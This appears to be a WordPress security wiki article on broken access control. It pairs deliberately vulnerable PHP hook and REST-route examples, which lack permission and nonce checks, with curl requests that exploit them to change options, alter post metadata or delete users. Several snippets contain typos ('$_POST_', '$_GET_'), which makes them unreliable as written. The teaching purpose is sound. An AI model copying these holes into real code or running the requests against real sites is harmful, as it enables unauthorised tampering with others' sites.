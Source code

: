 ```yaml
---
title: Broken Access Control
contributors:
    - rafiem
---
```


## Introduction

This article covers cases of possible Broken Access Control on WordPress. This includes improper hook/function/code usage inside of the plugin/theme which can be used to access or update sensitive information.

By default, processes on hooks or functions that are used on plugins or themes don't have a permission and nonce value check, that's why the developer needs to manually perform a permission check using [`current_user_can`](/wordpress/wordpress-internals/functions/#current_user_can) function and the nonce value check using [`wp_verify_nonce`](/wordpress/wordpress-internals/functions/#wp_verify_nonce), [`check_admin_referer`](/wordpress/wordpress-internals/functions/#check_admin_referer) or [`check_ajax_referer`](/wordpress/wordpress-internals/functions/#check_ajax_referer) functions.


## `init` hook

For more details on the `init` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#init-hook).

Example of vulnerable code:

```php
add_action("init", "check_if_update");

function check_if_update(){
    if(isset($_GET["update"])){
        update_option("user_data", sanitize_text_field($_GET_["data"]));
    }
}
```

To exploit this, an unauthenticated user just needs to visit the front page of a WordPress site and specify the parameter to trigger the `update_option` function which in this case will modify sensitive information.

```bash
curl <WORDPRESS_BASE_URL>/?update=1&data=test
```

## `admin_init` hook

For more details about the `admin_init` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#admin_init-hook).

Example of vulnerable code:

```php
add_action("admin_init", "delete_admin_menu");

function delete_admin_menu(){
    if(isset($_POST_["delete"])){
        delete_option("custom_admin_menu");
    }
}
```

To exploit this, the unauthenticated user just needs to perform a POST request to the `admin-ajax.php` and `admin-post.php` endpoints specifying the needed parameter to trigger the `delete_option` function to remove sensitive data.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=heartbeat -d "delete=1"
```

## `wp_ajax_{$action}` hook

For more details on the `wp_ajax_{$action}` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#wp_ajax_action-hook).

Example of vulnerable code:

```php
add_action("wp_ajax_update_post_data", "update_post_data_2");

function update_post_data_2(){
    if(isset($_POST_["update"])){
        $post_id = get_post($_GET["id"]);
        update_post_meta($post_id, "data", sanitize_text_field($_POST["data"]));
    }
}
```

To exploit this, any authenticated user (**Subscriber+** role) just needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `update_post_meta` function to update arbitrary WP Post metadata.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=update_post_data&update=1 -d "id=1&data=changed"
``` 

## [`wp_ajax_nopriv_{$action}`](https://developer.wordpress.org/reference/hooks/wp_ajax_nopriv_action/) hook

For more details on the `wp_ajax_nopriv_{$action}` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#wp_ajax_nopriv_action-hook).

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_toggle_menu_bar", "toggle_menu_bar");

function toggle_menu_bar(){
    if ($_POST_["toggle"] === "1"){
        update_option("custom_toggle", 1);
    }
    else{
        update_option("custom_toggle", 0);
    }
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `update_option` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=toggle_menu_bar -d "toggle=1"
``` 

## `register_rest_route` function

For more details on the `register_rest_route` function, please refer to this [documentation](/wordpress/wordpress-internals/functions/#register_rest_route-function).

Sometimes, developers don't implement a proper permission check on the custom REST API route and use the `__return_true` string as the permission callback. This makes the custom REST API route to be publicly accessible.

```php
add_action( 'rest_api_init', function () {
  register_rest_route( 'myplugin/v1', '/delete/author', array(
    'methods' => 'POST',
    'callback' => 'delete_author_user',
    'permission_callback' => '__return_true',
  ) );
} );

function delete_author_user($request){
    $params = $request->get_params();
    wp_delete_user(intval($params["user_id"]));
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-json/myplugin/v1/delete/author` endpoint specifying the needed parameter to trigger the `wp_delete_user` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-json/myplugin/v1/delete/author -d "user_id=1"
``` 

Other cases could exist where developers already specify a proper function on the `permission_callback` parameter, however, the permission check implemented inside the function itself is not proper to what process can be done from the REST API route `callback` function.